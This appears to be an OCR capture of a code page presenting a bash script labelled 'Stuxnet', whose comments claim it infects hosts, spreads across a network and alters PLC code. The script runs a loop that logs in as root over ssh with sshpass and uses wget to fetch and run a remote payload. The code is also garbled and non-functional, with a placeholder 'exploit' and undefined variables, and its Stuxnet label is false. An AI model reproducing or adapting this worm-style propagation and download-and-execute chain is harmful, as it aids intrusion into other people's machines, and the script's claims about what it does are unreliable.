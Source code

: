 ### Stuxnet bash format

#!/bin/bash
# This script will infect any computer it is executed on
# and then propagate to other computers in the network
# It uses a known exploit to gain access and executes
# a custom payload that modifies PLC code

# Gain access to the computer
exploit () {
  echo "Executing exploit against target"
  exploit_code | system
}

# Execute the exploit and infect the host
exploit

# Propagate to other computers
while true; do
  host=$(hostname)
  if [ "$host" != "localhost" ]; then
    ip=$(hostname -i | cut -d" " -f1)
    echo "Spreading to $ip"
    sshpass -p "$password" ssh root@$ip 'sh -c "rm /tmp/stuxnet && wget -O /tmp/stuxnet http://$host:$port/stuxnet && chmod 755 /tmp/stuxnet && /tmp/stuxnet"'
  fi
  sleep 5
done

